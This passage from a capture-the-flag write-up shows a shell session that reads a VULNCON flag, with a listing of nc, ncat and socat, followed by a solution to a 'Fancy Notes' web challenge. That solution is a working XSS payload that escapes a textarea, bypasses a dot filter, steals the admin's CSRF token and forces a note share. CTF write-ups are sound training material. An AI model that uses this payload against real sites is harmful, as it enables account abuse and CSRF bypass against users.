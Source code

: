 Now that we have obtained the password to `vulncon`, we can just `su` and login as that user before
reading the flag.

```console
$ su vulncon
Password: jh^sJ9sd
ls -la
total 4204
drwxrwxrwt 1 root     root        4096 Dec  4 22:20 .
drwxr-xr-x 1 root     root        4096 Dec  4 06:22 ..
-rw-r--r-- 1 www-data www-data       8 Dec  4 19:07 flag.txt
-rwxr-xr-x 1 www-data www-data     250 Dec  4 20:07 fwUzzNz
-rw-r--r-- 1 www-data www-data    9398 Dec  4 20:15 linPE
-rwxr-xr-x 1 www-data www-data  959800 Dec  4 21:41 nc
-rwxr-xr-x 1 www-data www-data 2914424 Dec  4 21:42 ncat
-rw-r--r-- 1 www-data www-data       0 Dec  4 18:51 out
-rwxr-xr-x 1 www-data www-data  375176 Dec  4 22:03 socat
-rw-r--r-- 1 www-data www-data    4404 Dec  4 16:11 typescript
-rwxrwxrwx 1 www-data www-data       3 Dec  4 17:40 vulncon
-rw-r--r-- 1 www-data www-data     154 Dec  4 20:10 x
-rw-r--r-- 1 www-data www-data      12 Dec  4 17:58 yes.sh
cat /flag.txt
VULNCON{cv3_1s_aw3s0m3}
```

**Flag:** `VULNCON{cv3_1s_aw3s0m3}`



## Web/Fancy Notes

```
Web/Fancy Notes
Karma
10 solves / 477 points
Just dont use any fancy js while creating note also you can share your notes with admin too.
PS: Admin note has index 1, maybe interesting to check

Chall Link: http://35.197.213.145:9998/
Report Link: http://35.197.213.145:8081/
```

### Solution

This challenge had an XSS vulnerability when creating notes. The `token` cookie cannot be easily
exfiltrated as it is set with the `http-only` flag. Additionally, all instances of `.` in the input
is converted to the word `FANCY`. Thus, we have to write a payload that generates a share link for
the message with an ID of 1 as the admin user without the use of `.` and exfiltrate that link back
to us.

The following payload achieves this.

```javascript
</textarea><script>
var home = new XMLHttpRequest();
home["open"]("GET","/",false);
home["send"](null);
var homee = document["createElement"]("homex");
homee["innerHTML"] = home["responseText"];
var csrf = homee["getElementsByTagName"]("input")[2]["value"];
var share = new XMLHttpRequest();share["open"]("POST","/shareNote",false);
share["setRequestHeader"]("Content-type", "application/x-www-form-urlencoded");
share["send"]("id=1&csrf_token="+csrf);
var sharee = document["createElement"]("sharex");
sharee["innerHTML"] = share["responseText"];
var msg = sharee["getElementsByTagName"]("script")[0]["firstChild"]["data"];
```